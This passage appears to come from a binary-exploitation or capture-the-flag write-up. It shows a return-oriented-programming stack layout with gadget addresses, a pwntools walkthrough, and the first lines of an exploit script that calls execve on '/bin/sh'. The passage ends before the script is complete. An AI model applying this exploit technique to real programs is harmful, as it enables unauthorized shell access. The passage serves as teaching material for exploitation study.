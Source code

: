 The stack will look like this:
<center>

| Stack |
| ----------------------- |
| pop rdi: 0x401b0d |
| writeable address: 0x40c240 |
| pop rax: 0x401001 |
| shell string: "/bin/sh\x00" | 
| mov qword [rdi], rax: 0x401ce7 |
| pop rax: 0x401001 |
| excecv syscall num: 0x3b |
| pop rsi: 0x4019a3 |
| 0x00000000 |
| pop rdx: 0x403d23 |
| 0x00000000 |
| syscall: 0x4013e9 |

</center>

## Explotation Step 3: Crafting The Exploit 

Now that the ROP gadgets have been found and are in the correct order, the final step in getting to a shell is crafting the exploit. Pwntools will be used to easily interact with the program and send it our payload. First variables are created to store gadget addresses, the syscall num, the shell string, and 0. They are all packed into little endian byte format with pwn.p64(). The payload is then created by concatenating the gadgets into the correct order. Finally, the process is created by using pwn.process(), the index -2 and the payload are sent to the process using process.sendline(), and the user is able to interact with the shell through pwntools using process.interactive().

Here is the full exploit:

``` python
import pwn
import sys

# Order of rop gadgets on stack
# | pop rdi:                     0x401b0d
# | writeable address            0x0x40c240
# | pop rax                      0x401001
# | shell string:                "/bin/sh\x00"
# | mov qword [rdi], rax:        0x401ce7
# | pop rax:                     0x401001
# | excecv syscall num:          0x3b
# | pop rsi:                     0x4019a3
# | 0                            0x0
# | pop rdx:                     0x403d23
# | 0                            0x0
# | syscall:                     0x4013e9

# Packed rop gadgets, syscall num, shell string, and 0s
syscall_num = pwn.p64(0x3b)
writeable_addr = pwn.p64(0x40c240)
shell_string = b'/bin/sh\x00'
zero = pwn.p64(0x0)
pop_rax = pwn.p64(0x401001)
pop_rdi = pwn.p64(0x401b0d)
```